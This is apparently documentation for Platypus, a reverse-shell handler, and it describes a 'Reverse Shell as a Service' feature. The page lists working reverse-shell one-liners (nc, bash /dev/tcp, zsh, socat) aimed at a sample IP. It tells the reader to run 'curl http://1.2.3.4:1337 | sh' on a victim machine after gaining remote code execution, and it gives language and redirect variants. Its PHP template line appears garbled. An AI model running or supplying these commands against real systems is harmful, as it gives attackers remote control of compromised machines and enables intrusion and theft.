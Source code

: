 # Reverse shell as a Service

> NOTICE: ONLY WORKS on *NIX

Platypus is able to multiplex the reverse shell listening port. Port `1337 / 1338` can handle reverse shell client connections.  
Also, There is another interesting feature that platypus provides, which is called `Reverse Shell as a Service (RaaS)`.

Assume that you have got an arbitrary RCE on the target application, but the target application will strip the non-alphabet letter like `&`, `>`. then this feature will be useful.
Like you have already used before, here are some **BAD** examples:

```bash
nc -e /bin/bash 192.168.174.132 8080
bash -c 'bash -i >/dev/tcp/192.168.174.132/8080 0>&1'
zsh -c 'zmodload zsh/net/tcp && ztcp 192.168.174.132 8080 && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.174.132:8080
```

To archive your aim, all you need is to construct a URL that indicates the target.

The command `bash -c "bash -i >/dev/tcp/5.6.7.8/1337 0>&1"` is the equivalent of `curl http://1.2.3.4:1337/5.6.7.8/1337 | sh`, this feature provides the capability to redirect a new reverse shell to another IP and port without remembering the boring reverse shell command.

If you just want to pop up a reverse shell to the listening port of platypus, the parameter (`1.2.3.4/1337`) can be omitted.

Once the command gets executed, the reverse shell session will appear in platypus which is listening on `1.2.3.4:1337`.

## Quick start

1. Start platypus and listen to any port (eg: 1.2.3.4 1337)
2. Execute `curl http://1.2.3.4:1337 | sh` on the victim machine

## Specifying language of reverse shell command (default: bash)

Also, you can specify the specific language of creating a reverse shell. All available languages are listed at [templates](https://github.com/WangYihang/Platypus/tree/master/lib/runtime/template/rsh)

1. Start platypus and listen to any port (eg: 1.2.3.4 1337)
2. Execute `curl http://1.2.3.4:1337/python | sh` on the victim machine

## What if I want to pop up the reverse shell to another IP (5.6.7.8) and port (7331)?

By default, the new reverse shell will be popped up to the server which the port which the HTTP request sent, but you can simply change the IP and port by following these steps:

1. Start platypus and listen to any port (eg: 1.2.3.4 1337)
2. Execute `curl http://1.2.3.4:1337/5.6.7.8/7331/python | sh` on the victim machine

## How to add a new language

Currently, platypus support `awk`, `bash`, `go`, `Lua`, `NC`, `Perl`, `PHP`, `python` and `ruby` that were simply stolen from [PayloadAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md), and you can check `templates` folder to view all templates. Also, adding new language support is simple, just replace the real IP and port with `__HOST__` and `__PORT__`.

```bash
php -r '$sock=fsockopen("__HOST__",`popen /bin/sh -i <&3 >&3 2>&3", "r");'`
```

Then you should use `go-bindata` to add the template file as an asset of Platypus by typing the following command.

```
go get -u github.com/go-bindata/go-bindata/...
go-bindata -pkg resource -o ./lib/util/resource/resource.go ./lib/runtime/...
```
